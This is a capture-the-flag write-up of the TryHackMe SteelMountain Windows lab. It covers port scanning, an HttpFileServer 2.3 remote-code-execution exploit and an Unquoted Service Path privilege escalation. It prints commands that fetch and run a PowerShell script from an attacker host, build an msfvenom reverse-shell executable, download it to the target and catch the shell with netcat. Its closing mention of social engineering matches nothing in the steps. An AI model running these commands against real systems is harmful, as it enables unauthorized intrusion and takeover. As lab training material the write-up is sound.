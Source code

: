 ```yaml
---
layout: single
title: SteelMountain - TryHackMe (OSCP STYLE)
excerpt: "On TryHackMe, the challenge of the Steel Mountain Machine is to be solved either through Metasploit or manually. This machine runs on Windows operating system. For this particular challenge, the manual approach will be followed to solve it."
date: 2023-04-14
classes: wide
header:
  teaser: /assets/images/steelmountain/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - Unquoted Service Path
  - HFS
---
```


## Introduccion

This is a write-up for the SteelMountain machine on the TryHackme platform. We tackled this pentesting exercise using the approach and methodology of OSCP.

## Enumeration

In this lab, we are dealing with a Windows machine.
For machine enumeration, we will scan all ports of the machine, request it to report back the open ports, and save all that information to a file to avoid making noise in case we need to refer back to it.
- -p-: Scans all ports
-	-oN nmap-initial-scan.txt: Saves output to a file named "nmap-initial-scan.txt"
-	-min-rate 5000: Specifies the minimum number of packets per second to be sent during the scan.
-	-T5: Sets the level of "aggressiveness" of the scan to 5, meaning that more intense and faster tests will be performed.
-	-Pn: Ignores checking whether the remote host is active and online.
-	-n: Disables DNS name resolution for IP addresses.

```sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.178.153 -oG allPorts```
[1]:/assets/images/steelmountain/1.png

Upon port scanning, it was identified that a web server is being served on ports 80 and 8080. This indicates the presence of HTTP services on the target machine. Navigating to those ports, the following web pages were discovered.

[2]:/assets/images/steelmountain/2.png

This web page is only useful to solve the first question of the lab. In this write-up, we will focus on compromising the machine.

[3]:/assets/images/steelmountain/3.png

On the second page, we discovered an HttpFileServer 2.3. Using the "searchsploit" command to look for the name of this file, we found a Python script that allows remote command execution. This search was made possible by the ExploitDb database, which lists this exploit with the number 49584.

[4]:/assets/images/steelmountain/4.png

The script first sets some variables, including the IP address and port of the attacker machine (lhost and lport), and the IP address and port of the victim machine (rhost and rport). It then defines a command to be executed on the victim machine in PowerShell, which sets up a TCP connection to the attacker machine and sends the output of any executed commands back to the attacker machine.

It encodes this command in base64 format and creates a payload that includes the encoded command, which is then URL-encoded and sent to the victim machine as part of an HTTP GET request. Once the payload is received by the victim machine and executed, a reverse shell connection is established and the attacker machine can interact with the victim machine.

Finally ends by printing some debugging information and listening for incoming connections on the specified port using the netcat utility.

To make this script work, we need to change the first 4 parameters.

[5]:/assets/images/steelmountain/5.png

After running the script, we received the reverse shell on our machine.

[6]:/assets/images/steelmountain/6.png

[7]:/assets/images/steelmountain/7.png

By obtaining a reverse shell on the target machine, we were able to retrieve the first flag.

[8]:/assets/images/steelmountain/8.png

---

## Privilege escalation

It is important to note that we gained access with a PowerShell session, so all syntax used must be in this interpreter.

We used the PowerUp.ps1 tool to enumerate potential privilege escalation vectors within the machine. At the end of the script, we should add "Invoke-AllChecks" to perform the scan.

The GitHub repository to download the tool is:[Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

We executed the script from our local machine using the Invoke-Expression tool, which means that the script was not downloaded or stored on the victim's machine.

```iex(New-Object Net.WebClient).downloadString('http://LIP:LPORT/PowerUp.ps1')```

We need to launch an HTTP server using Python, specifying the directory where the file mentioned above is located as the document root.

```sudo python3 -m http.server 8080```

[9]:/assets/images/steelmountain/9.png

The vulnerability detected by the tool is called "Unquoted Service Path".

[10]:/assets/images/steelmountain/10.png

The Unquoted Service Path vulnerability refers to an error in the way the path of a Windows service is specified in the registry. If the path contains spaces but is not enclosed in double quotes, the service may attempt to execute an unintended program or even a malicious backdoor. This vulnerability can be exploited if the user running the service has elevated privileges, allowing an attacker to escalate privileges to gain control over the system.

For example, let's say a Windows service is installed with a path of C:\Program Files\Example Service\service.exe. However, the service is registered in the registry without quotes around the path, like this:
HKLM\SYSTEM\CurrentControlSet\Services\ExampleService
ImagePath: C:\Program Files\Example Service\service.exe

If a user with administrative privileges attempts to start this service, Windows will search for the executable at the specified path. However, because the path contains spaces and is not enclosed in quotes, Windows will interpret the first space as a separator between the path and the first argument. In this case, Windows will attempt to execute C:\Program instead of C:\Program Files\Example Service\service.exe. If an attacker were to place a malicious file named C:\Program.exe on the system, Windows would execute that file instead of the intended service executable.
To exploit this vulnerability, an attacker could create a malicious file with a name like C:\Program.exe and place it on the system. When the vulnerable service is started, Windows would execute the malicious file instead of the intended executable, allowing the attacker to execute arbitrary code with elevated privileges.

To take advantage of the vulnerability on this machine, we will go to the path:

```C:\Program Files (x86)\IObit\```

This path is the first path where we can add an executable file due to user permissions.

Since we cannot access the C:\Program Files(x86) directory with our account privileges, we will place a vulnerable executable file named "Advanced.exe" generated with MSFVenom in this directory.

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe -o Advanced.exe```

We will use the Invoke-WebRequest tool from the target machine to request the file by sharing it from our machine to the target machine through the Python server.

```iwr -uri "http://AtackerIP:AtackerPort/Advanced.exe" -outfile "Advanced.exe```

[11]:/assets/images/steelmountain/11.png

Finally, we just need to stop and restart the service. When the service runs again, it will execute our script before the legitimate one, and it will call a listener that we have set up on our attacker machine as an administrator.

```stop-service AdvancedSystemCareService9
   start-service AdvancedSystemCareService9
   nc -lvnp AtackerPort
 ```
   

We receive the shell in the listener set up with netcat.

[12]:/assets/images/steelmountain/12.png

In conclusion, this CTF provided an opportunity to practice different hacking techniques and tools, including enumeration, vulnerability scanning, exploitation, and privilege escalation. We were able to compromise the target machine by exploiting known vulnerabilities and using social engineering tactics. This CTF also helped us improve our understanding of how attackers can gain unauthorized access to systems and the importance of implementing security best practices to protect against such attacks.
